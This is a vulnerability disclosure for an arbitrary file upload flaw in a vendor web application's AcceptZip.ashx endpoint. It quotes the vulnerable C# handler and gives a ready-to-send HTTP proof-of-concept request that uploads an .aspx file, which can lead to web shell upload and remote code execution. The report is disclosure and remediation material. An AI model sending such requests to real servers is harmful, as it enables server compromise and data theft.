


# Vulnerability Report
## Vendor Homepage
http://www.zzskzy.com/

## Title: Arbitrary File Upload Vulnerability in AcceptZip.ashx Endpoint

### Summary:
The code in the ProcessRequest method of the AcceptZip.ashx endpoint on the vendor's website contains a vulnerability that allows for arbitrary file uploads.

### Affected Endpoint:
/AcceptZip.ashx

### Vulnerability Type: 

Arbitrary File Upload to Remote Code Execution (RCE)

### Vulnerable Code:
```c#
public void ProcessRequest(HttpContext context)
{
    context.Response.ContentType = "text/plain";
    string summers = "一键签收";//接口摘要
    JsonStr jsonResult = new JsonStr();
    try
    {
        string foder = "/sign/Img";
        string uploadPath = HttpContext.Current.Server.MapPath(foder) + "\\";
        string Image1 = "";
        string urlPath = HttpContext.Current.Request.Url.Host + ":" + HttpContext.Current.Request.Url.Port + foder + "/";

        if (!Directory.Exists(uploadPath))//如果文件夹不存在
        {
            Directory.CreateDirectory(uploadPath);//生成文件夹
        }
        HttpFileCollection filecount = context.Request.Files;
        string[] Image;
        int count = filecount.Count;
        Image = new string[count];
        String s = context.Request.Headers.ToString();  // 获得通过HTTP协议协议头传过来的的json数据
        String objStr = HttpUtility.UrlDecode(Utils.GetParamJson(s), Encoding.UTF8);

        Log.Debug(summers, objStr);
        if (objStr.Length == 0)     //objStr.Length == 0
        {
            jsonResult.Msg_code = ReturnCode.paramater_error;
            jsonResult.Msg_info = "\"未传参数\"";
        }
        else
        {
            try
            {
                if (count > 0)
                {
                    for (int i = 0; i < count; i++)
                    {
                        string fileName = DateTime.Now.ToString("yyyyMMddhhmmssfff") + i + Path.GetExtension(filecount[i].FileName);
                        filecount[i].SaveAs(uploadPath + fileName); //任意文件上传漏洞
                        Image[i] = "http://" + urlPath + fileName;
                    }
                }
```

### Proof of Concept (PoC):
```http
POST /AcceptZip.ashx HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="update1.aspx"
Content-Type: text/plain

123
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```

### Impact:
An attacker can exploit this vulnerability by uploading malicious files, such as web shells, which can lead to remote code execution on the server. This can result in unauthorized access, data leakage, and potential system compromise.

### Recommendation:
1. Validate file uploads by checking file extensions, content types, and implementing secure file upload practices.
2. Restrict file upload permissions to specific directories and avoid executing uploaded files.
3. Regularly monitor and audit file upload activities on the server.

### Conclusion:
The arbitrary file upload vulnerability in the AcceptZip.ashx endpoint poses a significant security risk to the vendor's website, potentially leading to remote code execution. It is crucial to address this issue promptly to prevent exploitation by malicious actors.

### References:
- OWASP File Upload Cheat Sheet: https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
- Microsoft Docs on Secure File Upload: https://docs.microsoft.com/en-us/aspnet/core/mvc/models/file-uploads?view=aspnetcore-6.0
